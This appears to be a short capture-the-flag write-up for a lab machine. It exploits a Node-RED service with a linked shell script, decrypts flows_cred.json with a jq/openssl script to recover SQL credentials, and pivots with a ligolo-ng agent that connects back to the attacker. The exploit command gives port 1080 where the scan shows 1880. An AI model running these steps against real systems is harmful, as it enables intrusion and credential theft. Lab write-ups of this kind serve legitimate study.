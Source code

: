 
# NMAP

* Rust scan result
 
```console
Open 10.10.185.167:22
Open 10.10.185.167:1880
```

## Web

* Node-red web service can be exploited via [noderedsh.py](https://gist.githubusercontent.com/qkaiser/79459c3cb5ea6e658701c7d203a8c297/raw/8966e4ee07400f16b92737161ca8df3cbfa37f91/noderedsh.py)

![image](https://github.com/reneanto/write-ups/assets/44943249/5def2930-6800-4a94-a52e-0a938e3747ed)
```bash
python3 noderedsh.py http://$IP:1080 --user "" --password ""
```

![nodered-svc](./Images/tengu-nodered.png)

### nodered_svc

* further exploring the nodered_svc directory, we come across `flows_cred.json` 
* according to this [article](https://blog.hugopoi.net/en/2021/12/28/how-to-decrypt-flows_cred-json-from-nodered-data/), we can get the `flows_cred.json` and the `.config.runtime.json` in to the folder `node_red_data` , then run the following script

```bash

#!/bin/bash
#
# Decrypt flows_cred.json from a NodeRED data directory
#
# Usage
# ./node-red-decrypt-flows-cred.sh ./node_red_data
#
jq  '.["$"]' -j $1/flows_cred.json | \
  cut -c 33- | \
  openssl enc -aes-256-ctr -d -base64 -A -iv `jq  -r '.["$"]' $1/flows_cred.json | cut -c 1-32` -K `jq -j '._credentialSecret' $1/.config.runtime.json | sha256sum | cut -c 1-64`
```

* upon running this we get the sql credentials that were found in the web application
## Pivoting

* navigate to /tmp on nodered as a good practice
* then use `ligolo-ng` to pivot

```bash
#on attacker machine
sudo ip tuntap add user rzgami mode tun ligolo
sudo ip link set ligolo up
./proxy --selfcert

#on nodered
./agent -connect $IP:11601 -ignore-cert

#on attacker machine
ligolo-ng>session
sudo ip route add 10.10.x.230/32 dev ligolo
sudo ip route add 10.10.x.229/32 dev ligolo
ligolo-ng>start
```